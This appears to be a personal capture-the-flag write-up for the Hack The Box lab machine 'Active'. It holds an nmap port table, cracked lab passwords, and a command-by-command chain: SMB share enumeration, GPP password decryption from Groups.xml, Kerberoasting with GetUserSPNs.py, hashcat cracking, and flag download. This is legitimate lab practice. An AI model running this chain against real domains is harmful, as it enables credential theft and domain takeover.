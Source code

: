 # Active

| Name   | IP           | Difficulty | OS   |
| ------ | ------------ | ---------- | ---- |
| active | 10.10.10.100 | Windows    | Easy |

## NMAP

| HOST         | PORT  | PROTO | SERVICE                                 | VERSION             |
| ------------ | ----- | ----- | --------------------------------------- | ------------------- |
| 10.10.10.100 | 135   | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 139   | tcp   | Microsoft Windows netbios-ssn           |                     |
| 10.10.10.100 | 3268  | tcp   | Microsoft Windows Active Directory LDAP |                     |
| 10.10.10.100 | 3269  | tcp   |                                         |                     |
| 10.10.10.100 | 389   | tcp   | Microsoft Windows Active Directory LDAP |                     |
| 10.10.10.100 | 445   | tcp   |                                         |                     |
| 10.10.10.100 | 464   | tcp   |                                         |                     |
| 10.10.10.100 | 49152 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49153 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49154 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49155 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49157 | tcp   | Microsoft Windows RPC over HTTP         | 1.0                 |
| 10.10.10.100 | 49158 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49165 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 53    | tcp   | Microsoft DNS                           | 6.1.7601 (1DB15D39) |
| 10.10.10.100 | 593   | tcp   | Microsoft Windows RPC over HTTP         | 1.0                 |
| 10.10.10.100 | 636   | tcp   |                                         |                     |
| 10.10.10.100 | 88    | tcp   | Microsoft Windows Kerberos              |                     |

## HEADERS



## DIRECTORIES



## USERS

- svc_tgs GPPstillStandingStrong2k18
- Administrator Ticketmaster1968

## NOTES

- Replication share is readable `smbmap -H 10.10.10.100`
- Groups.xml in the share `smbmap -R Replication -H 10.10.10.100 --depth 10`
- Download Groups.xml `smbmap -R Replication -H 10.10.10.100 --depth 10 -A Groups.xml -q`
- svc_tgs user and password in Groups.xml
- Use gpp-decrypt to decrypt the password
- Download the user flag `smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -d active.htb -H 10.10.10.100 --download 'C:\Users\SVC_TGS\Desktop\user.txt'`
- Administrator is Kerberoastable `GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs`
- Kerberoast `GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18 -outputfile active_spns.txt`
- Crack the hash with hashcat `.\hashcat.exe -m 13100 .\hashes\active-htb.txt .\wordlists\rockyou.txt
- Download the root flag 'smbmap -u Administrator -p Ticketmaster1968 -d active.htb -H 10.10.10.100 -R Users -A root.txt -q`

